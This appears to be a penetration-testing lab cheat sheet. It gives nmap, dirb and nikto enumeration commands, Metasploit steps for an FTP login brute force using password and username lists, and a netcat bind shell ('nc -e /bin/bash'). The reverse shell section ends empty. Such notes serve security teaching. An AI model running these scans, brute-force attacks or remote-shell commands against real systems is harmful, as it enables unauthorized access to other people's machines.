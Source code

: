 ## Enumeration
* Nmap scan
   ```bash
   # nmap -O 10.1.16.0/24 -oX enum.xml && xsltproc enum.xml -o enum.html
   # nmap -sV -p- 10.1.16.9 -oX enum2.xml
   # xsltproc enum2.xml -o enum2.html
   ```
* Run vulnerability scan against ftp
   ```bash
   # nmap --script=vuln 10.1.16.9 -p 21
   ```
* Enumerating Web Directories
   ```bash
   # dirb http://10.1.16.9/
   # nikto -h 10.1.16.9
   ```

## Metasploit
* Start
   ```bash
   # msfconsole
   ```
* Search an exploit
   ```bash
   search name:Apple type:exploit
   ```
* check details of an exploit
   ```bash
   msf5> info exploit/apple_ios/browser/safari_libtiff
   ```
* Nmap scan within Metasploit
   ```bash
   msf5> nmap -A 10.1.16.9
   msf5> nmap -sn 10.1.16.0/24
   ```
* Using Attack Modules in Metasploit
   ```bash
   msf5> use auxiliary/scanner/ftp/ftp_login
   msf5> show options
   msf5> set PASS_FILE /media/cdrom0/Lab14/top13-bad-passwords.txt
   msf5> set USER_FILE /media/cdrom0/Lab14/top13-bad-usernames.txt
   msf5> set RHOSTS 10.1.16.9
   msf5> run
   ```
* clear a setting using ```unset``` command

## Reverse Shells
### Bind Shells
* Target machine
  ```bash
  # sudo nc -nvlp 1000 -e /bin/bash
  ```
* Attacker
  ```bash
  # nc -nv 10.1.16.9 1000
  # whoami
  ```
### Reverse Shell
* Attacker
  ```bash
  # nc -nvlp 1000
  ```
* Victim
  ```bash
  ```